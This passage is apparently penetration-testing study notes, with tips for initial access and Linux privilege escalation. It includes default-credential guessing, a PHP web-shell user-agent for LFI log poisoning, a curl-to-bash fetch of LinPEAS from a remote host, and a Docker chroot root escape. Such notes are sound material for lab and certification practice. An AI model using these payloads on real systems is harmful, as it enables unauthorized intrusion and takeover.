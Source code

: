 * Always try to login with default passwords and with using the username as a password. For example, if a username has been identiifed as `parzival` try and login with the password `parzival`
* Sometimes a simple wordlist can be your friend.. Ensure dumb combinations are attempted  like `admin:admin`
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* If you can access the Apache logs through LFI and observe the 'User Agent' is viewable, we can potentially specify our user agent to PHP code and execute that on the target machine. [This video from John Hammond](https://www.youtube.com/watch?v=u\_uuk7FWWF4) is a great example.
  * Using this we can potentially turn an LFI into RCE. An example user agent would be the following: `User-Agent: <?php system(\$_GET['c']); ?>`
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`
* Narrowing down a version number of an application can greatly increase your chances of finding an exploit.&#x20;

### Privilege Escalation - Linux

* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
* Don't forget to check for any Kernel exploits.&#x20;
  * `uname -a`
* For privilege escalation with fail2ban, use a netcat shell or modify the permissions of `/etc/shadow`
  * [Amazing Guide on Privilege Escalation with Fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
  * Run the following command to identify possible priivlege escalation efforts:
    * `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`
  * If you've identified a CronJob that may be exploitable then it may be worth plugging it into [CronGuru](https://crontab.guru/#\*/3\_\*\_\*\_\*\_\*).
  * If spawning a shell, check all files for MySQL credentials. It is likely you will be able to privilege escalate once located.
    * To login, ensure you have a stable shell and type `mysql -u root -p`
  * If you are a member of the 'Docker' group then there are multiple opportunities for privilege escalation.  Below is a list of a few examples:
    1. `docker images`
    2. `docker run -v /:/mnt --rm -it [IMAGE] chroot /mnt sh`
  * If breaking out of a restricted shell, ensure you check the local bin and then GTFOBins for any easy breakouts.
    *   Sometimes you will have to export your path after breaking out of a restricted shell. Use the following command to correct your path:

        ```
        export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

        ```

### Privilege Escalation - Windows
